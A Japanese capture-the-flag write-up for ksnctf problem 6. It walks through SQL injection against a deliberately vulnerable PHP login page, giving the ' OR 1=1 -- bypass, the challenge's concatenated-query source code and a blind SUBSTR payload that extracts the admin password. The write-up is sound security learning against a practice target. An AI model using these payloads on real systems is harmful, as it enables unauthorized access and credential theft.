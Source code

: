 # 問題6 
## 参考サイト
- [問題](https://ksnctf.sweetduet.info/problem/6)
- [解説](https://linuxnosusume.blogspot.com/2017/12/ksnctf-6-login.html)
- [urllib3](https://note.com/tomtom_0301/n/n980969ea4756)
- [SQL注入](https://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/502.html)

## 解法

### 1. 以下をID欄に入力  
`' OR 1=1 --`  
これには以下の意味があり、この文字列をパラメータとして与えられた場合は、ユーザIDが常に返ってくる  
```
'       ： ひとつ前の「'」と対となり、文字列定数を終わらせる  
OR 1=1  ： uidの値に関係なく、検索条件を、真とさせる
--      ： それ以降の内容をコメントとして無視させる
```

結果として以下のページが返ってくる
```
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT);
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

上を開いてみた  
![ヒント結果](../images/p6_hint.png)


### 2. 以下をID欄に入力  
`admin'  AND SUBSTR((SELECT pass FROM user WHERE id='admin'),1,1) = 'F'--`  
adminのpassの1文字目がFと一致するため、Congraturation!が表示される
```
'       ： ひとつ前の「'」と対となり、文字列定数を終わらせる  
SUBSTR(文字列,開始の位置[,文字数])  ： 文字を切り出す
--      ： それ以降の内容をコメントとして無視させる
```


### 3. この[コード](../codes/p6_soltion.py)を実行  
## メモ
**ブラインドSQLインジェクション**  
挿入したSQLに対する応答ページの違いから、データベース管理システムに関する情報（実行ユーザーやテーブル名など）を盗み出す
